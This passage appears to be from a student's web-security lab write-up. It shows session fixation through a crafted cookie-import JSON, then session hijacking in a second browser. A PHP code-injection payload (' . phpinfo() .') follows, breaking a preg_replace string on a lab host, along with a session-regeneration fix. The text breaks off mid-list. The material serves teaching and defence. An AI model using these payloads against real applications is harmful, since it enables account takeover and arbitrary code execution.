  
\includegraphics{images/task2/hijack_after_fixation_as_attacker.PNG}
  \caption{hijack\_after\_fixation\_as\_attacker}
  \end{figure}
\end{itemize}

\textbf{Approach 2: Manual Approach} (Victim: \texttt{Bob}) -
\textbf{step 1}: Open \texttt{EditThiCookie} extension and click on
import. - \textbf{step 2:} Use the following payload to set the cookie
value,

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}
\NormalTok{\{}
    \StringTok{"domain"}\OperatorTok{:} \StringTok{"192.168.37.128"}\OperatorTok{,} \CommentTok{//domain name or IP}
    \StringTok{"expirationDate"}\OperatorTok{:} \FloatTok{1621190036.198929}\OperatorTok{,}
    \StringTok{"hostOnly"}\OperatorTok{:} \KeywordTok{true}\OperatorTok{,}
    \StringTok{"httpOnly"}\OperatorTok{:} \KeywordTok{false}\OperatorTok{,}
    \StringTok{"name"}\OperatorTok{:} \StringTok{"USECURITYID"}\OperatorTok{,}
    \StringTok{"path"}\OperatorTok{:} \StringTok{"/"}\OperatorTok{,}
    \StringTok{"sameSite"}\OperatorTok{:} \StringTok{"unspecified"}\OperatorTok{,}
    \StringTok{"secure"}\OperatorTok{:} \KeywordTok{false}\OperatorTok{,}
    \StringTok{"session"}\OperatorTok{:} \KeywordTok{false}\OperatorTok{,}
    \StringTok{"storeId"}\OperatorTok{:} \StringTok{"0"}\OperatorTok{,}
    \StringTok{"value"}\OperatorTok{:} \StringTok{"abcdefghi"}\OperatorTok{,}  \CommentTok{//fixed value for name \textquotesingle{}USECURITYID\textquotesingle{}}
    \StringTok{"id"}\OperatorTok{:} \DecValTok{1}
\NormalTok{\}}
\NormalTok{]}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\centering

\includegraphics{images/task2/cookie_fixing.PNG}
\caption{cookie\_fixing}
\end{figure}

\begin{itemize}
\tightlist
\item
  Allow the user to log in. \textbf{\emph{Before Log in}}
\end{itemize}

\begin{figure}
\centering

\includegraphics{images/task2/fixation_before_login.PNG}
\caption{fixation\_before\_login}
\end{figure}

\textbf{\emph{After Log in}} Same cookie value exists.

\begin{figure}
\centering

\includegraphics{images/task2/fixation_after_login.png}
\caption{fixation\_after\_login}
\end{figure}

\begin{itemize}
\tightlist
\item
  \textbf{step 3}: In another browser use the same cookie values to
  import it to \texttt{EditThisCookie} extension.
\item
  \textbf{step 4} Reload the page.
\end{itemize}

\textbf{Result} : Session successfully hijacked using the fixed cookie
value.

\begin{figure}
\centering

\includegraphics{images/task2/hijack_after_fixation.PNG}
\caption{hijack\_after\_fixation}
\end{figure}

\begin{quote}
Another approach - setting the cookie value using HTTP header response
by intercepting the traffic between web server and client's browser.
\end{quote}

\textbf{3. How can you generally verify that an application is
vulnerable to this type of attack?} \textbf{solution:} - Set the cookie
value to random string(usually similar length or format as actual cookie
value) before logging in to the application. - Now login to the
application. - Observe the cookie value set after login by the
application in developer tools =\textgreater{} storage. - If the cookie
value is same as set before login and no new cookie name, values or
parameters are added and the account is still logged in, then we can
confirm that application is vulnerable to session fixation attack.

\textbf{4. Does https influence your attack?} \textbf{Solution :}
\texttt{https} has No influence on carrying out the session fixation
attack, as the cookie values can be set in various ways, encrypting the
traffic or running the application over secure protocol has no effect.

\textbf{5. Accordingly, which countermeasure is necessary to prevent
your attacks? Patch your system and test it against Session Fixation
again.}

\textbf{Solution} Everytime a session has been started regenerate the
session id.

\begin{Shaded}
\begin{Highlighting}[]
    \FunctionTok{session\_start}\NormalTok{()}\OtherTok{;}
    \FunctionTok{session\_regenerate\_id}\NormalTok{(}\KeywordTok{TRUE}\NormalTok{)}\OtherTok{;} 
    \VariableTok{$\_SESSION}\OperatorTok{=}\DataTypeTok{array}\NormalTok{()}\OtherTok{;} \CommentTok{// initializing a empty array values the session variable.}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\centering

\includegraphics{images/task2/Session_fixation_before.JPG}
\caption{Session\_fixation\_before}
\end{figure}

\begin{figure}
\centering

\includegraphics{images/task2/Session_fixation_after.JPG}
\caption{Session\_fixation\_after}
\end{figure}

\hypertarget{exercise-6-remote-code-injection}{%
\subsubsection{Exercise 6: Remote Code
Injection}\label{exercise-6-remote-code-injection}}

\textbf{1. Find a section that allows you to inject and execute
arbitrary code (PHP). Document your steps and explain why does it allow
the execution?} \textbf{solution :} 1. Found user input on
\texttt{htbdetails} \textgreater{} \texttt{Account\ details} page, where
arbitary code injection is possible. After analysing the source code:

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$replaceWith} \OperatorTok{=}  \StringTok{"preg\_replace(\textquotesingle{}\#\textbackslash{}b"}\OperatorTok{.} \FunctionTok{str\_replace}\NormalTok{(}\StringTok{\textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{\textquotesingle{}}\OtherTok{,}
                \StringTok{\textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}\textbackslash{}\textbackslash{}}\StringTok{\textquotesingle{}}\OtherTok{,} \VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}query\textquotesingle{}}\NormalTok{]) }\OperatorTok{.}\StringTok{"\textbackslash{}b\#i\textquotesingle{}, \textquotesingle{}\textless{}span}
\StringTok{                class=}\SpecialCharTok{\textbackslash{}"}\StringTok{queryHighlight}\SpecialCharTok{\textbackslash{}"}\StringTok{\textgreater{}}\SpecialCharTok{\textbackslash{}\textbackslash{}\textbackslash{}\textbackslash{}}\StringTok{0\textless{}/span\textgreater{}\textquotesingle{},\textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{0\textquotesingle{})"}\OtherTok{;}
\end{Highlighting}
\end{Shaded}

preg\_replace function is in strings and input is part of the string,
terminated using \texttt{\textquotesingle{}} and injected php code and
opened \texttt{\textquotesingle{}} for the continueing string.

payload:

\begin{Shaded}
\begin{Highlighting}[]
    \StringTok{\textquotesingle{} . phpinfo() .\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

\begin{quote}
\texttt{.} is used to concatenate to the string.
\end{quote}

that breaks the following query,

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$replaceWith} \OperatorTok{=}  \StringTok{"preg\_replace(\textquotesingle{}\#\textbackslash{}b"}\OperatorTok{.} \FunctionTok{str\_replace}\NormalTok{(}\StringTok{\textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{\textquotesingle{}}\OtherTok{,}
                \StringTok{\textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}\textbackslash{}\textbackslash{}}\StringTok{\textquotesingle{}}\OtherTok{,} \VariableTok{$http}\NormalTok{[}\StringTok{\textquotesingle{}query\textquotesingle{}}\NormalTok{]) }\OperatorTok{.}\StringTok{"\textbackslash{}b\#i\textquotesingle{}, \textquotesingle{}\textless{}span}
\StringTok{                class=}\SpecialCharTok{\textbackslash{}"}\StringTok{queryHighlight}\SpecialCharTok{\textbackslash{}"}\StringTok{\textgreater{}}\SpecialCharTok{\textbackslash{}\textbackslash{}\textbackslash{}\textbackslash{}}\StringTok{0\textless{}/span\textgreater{}\textquotesingle{},\textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{0\textquotesingle{})"}\OtherTok{;}
\end{Highlighting}
\end{Shaded}

into,

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$replaceWith} \OperatorTok{=} \StringTok{"preg\_replace(\textquotesingle{}\#\textbackslash{}b\textquotesingle{}. phpinfo() .\textquotesingle{}\textbackslash{}b\#i\textquotesingle{}, \textquotesingle{}}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{0\textquotesingle{},\textquotesingle{}}\SpecialCharTok{\textbackslash{}0}\StringTok{\textquotesingle{})"}\OtherTok{;}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$replaceWith} \OperatorTok{=}\StringTok{\textquotesingle{}\textquotesingle{}}\OperatorTok{.}\FunctionTok{phpinfo}\NormalTok{()}\OperatorTok{.}\StringTok{\textquotesingle{}\textquotesingle{}}\OtherTok{;}  
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
